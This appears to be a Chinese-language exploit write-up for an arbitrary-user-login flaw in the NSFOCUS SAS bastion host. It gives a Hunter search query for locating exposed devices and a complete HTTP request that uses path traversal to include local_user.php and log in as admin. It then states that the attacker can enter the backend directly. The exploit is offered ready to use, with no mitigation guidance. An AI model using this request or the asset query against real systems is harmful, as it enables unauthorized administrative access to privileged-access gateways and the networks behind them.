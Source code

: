 # 绿盟SAS堡垒机local_user.php任意用户登录漏洞

# 一、漏洞简介
绿盟堡垒机存在任意用户登录漏洞，攻击者通过漏洞包含 www/local_user.php 实现任意⽤户登录。

# 二、影响版本
+ 绿盟SAS堡垒机

## 三、资产测绘
+ hunter`app.name="NSFOCUS 绿盟 SAS"`

![1692345776559-f5624e5a-4bb4-49a1-891a-79dd9dc6ddce.png](./img/w4hwzlZLp5D37wYG/1692345776559-f5624e5a-4bb4-49a1-891a-79dd9dc6ddce-152262.png)

+ 登录页面

![1692345819090-b23ee8fd-4a29-497b-a62a-e7957b5cfd88.png](./img/w4hwzlZLp5D37wYG/1692345819090-b23ee8fd-4a29-497b-a62a-e7957b5cfd88-428175.png)

# 四、漏洞复现
poc访问出现如下页面即可能存在漏洞

```plain
GET /api/virtual/home/status?cat=../../../../../../../../../../../../../../usr/local/nsfocus/web/apache2/www/local_user.php&method=login&user_account=admin HTTP/1.1
Host: xx.xx.xx.xx
Cookie: PHPSESSID=03eea4323452c328c6462f1bb50a0a9b; Hm_lvt_2743f882f7de0bd7d8ffc885a04c90f5=1692345507; Hm_lpvt_2743f882f7de0bd7d8ffc885a04c90f5=1692345507; left_menustatue_NSFOCUSnbspSASH=0|0|https://yzyx.loogear.com/home/status
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/116.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Te: trailers
Connection: close
```

![1692345978621-ec4e3a8b-10e7-4f9f-83b4-4dd2ae4922f3.png](./img/w4hwzlZLp5D37wYG/1692345978621-ec4e3a8b-10e7-4f9f-83b4-4dd2ae4922f3-330623.png)

然后直接访问堡垒机域名即可计入后台

```plain
http://xx.xx.xx.xx
```

![1692346036852-fabd8787-4603-474b-894e-25a08c3f8394.png](./img/w4hwzlZLp5D37wYG/1692346036852-fabd8787-4603-474b-894e-25a08c3f8394-661387.png)



> 更新: 2024-02-29 23:57:15  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/szf74hcc2561xmxb>